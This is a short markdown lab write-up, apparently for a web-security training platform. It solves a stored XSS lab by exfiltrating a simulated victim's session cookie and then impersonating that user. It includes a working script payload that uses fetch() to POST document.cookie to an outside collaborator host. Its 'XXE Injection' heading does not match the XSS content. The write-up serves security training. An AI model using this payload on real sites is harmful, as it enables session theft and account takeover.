





<div align='center'>

# **XXE Injection**

</div>

## **Lab:** Exploiting cross-site scripting to steal cookies

**Goal:** This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

**Solution:**

1.  We discover an XSS vulnerability in the comment section when we comment as `<b>XSS</b>`



2.  To steal the user's cookie, we will use this payload to post a comment. We use the burp collaborator client to observe the http request

```javascript
<script>fetch("https://fcvso9l42cb90gm0vz3p2md950bqzf.oastify.com",
{
    method: 'POST',
    body:document.cookie
});</script>
```

When user visits the blog page, users also make a POST request with request's body contain this user's cookie which will be seen by us when examining the request





We obtain his session cookie.

3.  Navigate to `\my-account` and verify that we are logged in as an administrator





